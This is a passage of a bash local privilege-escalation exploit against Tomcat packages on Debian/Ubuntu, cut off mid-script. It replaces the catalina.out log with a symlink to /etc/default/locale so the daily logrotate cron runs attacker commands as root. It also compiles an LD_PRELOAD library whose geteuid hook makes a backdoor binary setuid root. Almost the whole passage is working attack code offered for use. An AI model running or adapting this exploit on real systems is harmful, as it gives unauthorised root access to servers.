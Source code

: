 ```
fi

# Priv check
echo -e "\n[+] Starting the exploit in [\033[94m$mode\033[0m] mode with the following privileges: \n`id`"
id | grep -q tomcat
if [ $? -ne 0 ]; then
    echo -e "\n[!] You need to execute the exploit as tomcat user! Exiting.\n"
    exit 3
fi

# Set target paths
TOMCATLOG="$1"
if [ ! -f $TOMCATLOG ]; then
    echo -e "\n[!] The specified Tomcat catalina.out log ($TOMCATLOG) doesn't exist. Try again.\n"
    exit 3
fi
echo -e "\n[+] Target Tomcat log file set to $TOMCATLOG"

# [ Deferred exploitation ]

# Symlink the log file to /etc/default/locale file which gets executed daily on default
# tomcat installations on Debian/Ubuntu by the /etc/cron.daily/tomcatN logrotation cronjob around 6:25am.
# Attackers can freely add their commands to the /etc/default/locale script after Tomcat has been
# restarted and file owner gets changed.
if [ "$mode" = "deferred" ]; then
    rm -f $TOMCATLOG && ln -s /etc/default/locale $TOMCATLOG
    if [ $? -ne 0 ]; then
        echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
        cleanexit 3
    fi
    echo -e  "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
    echo -e  "\n[+] The current owner of the file is: \n`ls -l /etc/default/locale`"
    echo -ne "\n[+] Keep an eye on the owner change on /etc/default/locale . After the Tomcat restart / system reboot"
    echo -ne "\n    you'll be able to add arbitrary commands to the file which will get executed with root privileges"
    echo -ne "\n    at ~6:25am by the /etc/cron.daily/tomcatN log rotation cron. See also -active mode if you can't wait ;)
 \n\n"
    exit 0
fi

# [ Active exploitation ]

trap ctrl_c INT
# Compile privesc preload library
echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
cat <<_solibeof_>$PRIVESCSRC
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
#include <dlfcn.h>
uid_t geteuid(void) {
    static uid_t  (*old_geteuid)();
    old_geteuid = dlsym(RTLD_NEXT, "geteuid");
    if ( old_geteuid() == 0 ) {
        chown("$BACKDOORPATH", 0, 0);
        chmod("$BACKDOORPATH", 04777);
        unlink("/etc/ld.so.preload");
    }
```